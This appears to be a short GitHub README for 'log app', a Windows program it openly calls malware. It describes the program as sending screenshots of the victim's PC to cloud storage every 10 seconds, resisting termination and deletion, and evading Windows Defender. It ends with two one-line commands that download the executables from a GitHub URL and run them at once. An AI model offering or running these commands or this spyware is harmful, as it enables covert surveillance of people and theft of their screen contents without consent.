 # log app

#### The log.exe and log_v1.1.exe is a malware that will send screenshot of your pc every 10secs to a cloud based storage.

#### The log_v1.1 is an updated version of the original log.exe. This version adds a new feature to the malware, which prevents the user from manually killing the malware from the taskmanager. The victim has to use the terminal to kill the app.

#### Both versions of the malware can not be killed by simply deleting. Even though the malware might seem deleted the malware will still run and affect your computer.

#### Windows defender will not block the malware during installation or stop it while its running.

#### In order to test the malware in your virtual machine, simply install and run the malware or type the following command in the command prompt 

#### log_v1.1.exe
`mkdir C:/tempapp; curl -o "C:/tempapp/log.exe" https://github.com/falahabubacker/scripts-apps/blob/main/log_v1.1.exe; START C:/tempapp/log.exe;`

#### log.exe
`mkdir C:/tempapp; curl -o "C:/tempapp/log.exe" https://github.com/falahabubacker/scripts-apps/blob/main/log.exe; START C:/tempapp/log.exe;`
